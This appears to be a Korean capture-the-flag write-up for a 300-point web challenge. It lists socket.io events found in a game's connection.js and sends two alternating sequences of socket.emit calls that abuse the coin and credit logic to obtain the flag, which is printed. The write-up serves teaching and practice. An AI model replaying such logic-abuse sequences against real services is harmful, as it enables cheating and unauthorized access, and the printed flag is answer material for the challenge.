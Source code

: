## No.20 Web The Resurrection[300]

**점수:** 300

**분야:** Web

**제목:** The Resurrection

----

주어진 웹사이트에 접속하면 오락기가 뜬다.
 
`connection.js` 를 분석하면 

웹 소켓으로 보낼만한 명령어들을 알 수 있다.

```js
socket.emit('login','')  // 로그인
 
socket.emit('game_start',''); // 게임 시작(credit X)
 
socket.emit('insert_coin', ''); // 코인 삽입
 
socket.emit('start_map',''); // 맵파일
 
socket.emit('next_map',''); // 플래그 있는 맵파일(오픈 시 사망)
 
socket.emit('eject_credit', ''); // 코인 eject
 
socket.emit('dead',''); // 사망
 
socket.emit('key',''); // get flag
```
 
위의 명령들을 조합하여 아래와 같은 페이로드를 보냈다. 
 
```js
// 페이로드 1
socket.emit('login','')
socket.emit('game_start',''); // 게임 시작(credit X)
socket.emit('insert_coin', ''); // 코인 삽입
socket.emit('start_map',''); // 맵파일
socket.emit('next_map',''); // 플래그 있는 맵파일(오픈 시 사망)
socket.emit('eject_credit', ''); // 코인 eject
socket.emit('dead',''); // 사망
 
// 페이로드 2
socket.emit('insert_coin', ''); // 코인 삽입
socket.emit('game_start',''); // 게임 시작
socket.emit('start_map',''); // 맵파일
socket.emit('next_map',''); // 플래그 있는 맵파일(오픈 시 사망)
socket.emit('key',''); // get flag
``` 

정확한 페이로드는 모르겠으나, 페이로드 1과 페이로드 2를 번갈아가며 보내다 보니 키를 받을 수 있었다.
 
`HU37_HF2017{Heroes_never_die_For_a_price}`

